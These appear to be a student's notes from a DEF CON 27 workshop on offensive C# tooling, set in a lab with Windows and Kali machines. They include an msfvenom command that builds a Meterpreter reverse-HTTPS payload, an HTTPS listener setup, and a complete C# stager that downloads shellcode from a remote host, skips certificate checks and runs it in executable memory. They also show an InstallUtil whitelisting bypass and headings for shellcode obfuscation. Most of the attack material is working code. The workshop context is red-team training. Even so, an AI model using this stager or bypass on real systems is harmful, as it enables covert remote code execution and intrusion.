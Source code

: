 https://github.com/mvelazc0/defcon27_csharp_workshop

# Defcon Csharp workshop

set up one windows vm and one kali linux vm.
One kali linux:
`metasploit`
`pip install twistd`
`EmpireProject`

# lab 1

## Exercise 1

hellow world

## Exercise 2

inside cff exploreer in import directory we can see that mscore.lib is being imported

monitor with procmon

# lab 2

Downloada meterpreter stager

in network tab of process hacker we can look at network artifacts

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=Your_Kali_IP LPORT=8080
-f exe > ~/reverse.exe
```

creating an https listener

```
openssl genrsa > privkey.pem;
openssl req -new -x509 -key privkey.pem -out cert.pem -days 365;
twistd -n web -c cert.pem -k privkey.pem --https=8080;
```

using web.client we can download and execute as well

## Exercise 3

creating a custom stager

```C#
using System;
using System.Net;
using System.Text;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Security.Cryptography.X509Certificates;

public class Program
{

    //https://docs.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-virtualalloc 
    [DllImport("kernel32")]
    private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

    //https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createthread
    [DllImport("kernel32")]
    private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

    //https://docs.microsoft.com/en-us/windows/desktop/api/synchapi/nf-synchapi-waitforsingleobject
    [DllImport("kernel32")]
    private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    private static UInt32 MEM_COMMIT = 0x1000;
    private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;


    public static void Main()
    {
        string url = "https://192.168.0.35:8080/nD7qcbYj8eZVilSICKHiKQ5d9UJt8wcsY3KVBWrtBEvK9mbfbWNqZ9sf1";
        Stager(url);
    }

    public static void Stager(string url)
    {

        WebClient wc = new WebClient();
        wc.Headers.Add("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36");
        ServicePointManager.Expect100Continue = true;
        ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;
        ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };

        byte[] shellcode = wc.DownloadData(url);

        UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);
        IntPtr threatHandle = IntPtr.Zero;
        UInt32 threadId = 0;
        IntPtr parameter = IntPtr.Zero;
        threatHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);
        WaitForSingleObject(threatHandle, 0xFFFFFFFF);

    }



}
```

# Lab 3

raw shellcod einjection

## exercise 2 

bypassing application whitelisting

```C#
using System;
using System.Net;
using System.Diagnostics;
using System.Reflection;
using System.Configuration.Install;
using System.Runtime.InteropServices;


public class Program
{
    public static void Main()
    {
        Console.WriteLine("I am not malicious :)");
        Console.ReadKey();
    }

}

[System.ComponentModel.RunInstaller(true)]
public class Sample : System.Configuration.Install.Installer
{
    public override void Uninstall(System.Collections.IDictionary savedState)
    {
        LegitInstaller.Run();
    }

}

public class LegitInstaller
{

    public static void Run()
    {
        Process.Start("notepad.exe");
        Console.ReadKey();

    }

}

```

```
C:\Users\WIN10RED\source\repos\cryptopals_net\cryptopals_net\bin\x64\Release>C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile=false /U ./cryptopals_net.exe
Microsoft (R) .NET Framework Installation utility Version 4.8.4084.0
Copyright (C) Microsoft Corporation.  All rights reserved.

Exception occurred while initializing the installation:
System.BadImageFormatException: Could not load file or assembly 'file:///C:\Users\WIN10RED\source\repos\cryptopals_net\cryptopals_net\bin\x64\Release\cryptopals_net.exe' or one of its dependencies. An attempt was made to load a program with an incorrect format..
```

# lab 4 

shellcode obfuscation

## xor the payload

## AES encryption of payload

# lab 5 powershell without powershell.exe

## Executing PWS cmdlets

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /reference:"C:\Program Files
(x86)\Reference
Assemblies\Microsoft\WindowsPowerShell\3.0\System.Management.Automation.dll" 1.cs
```










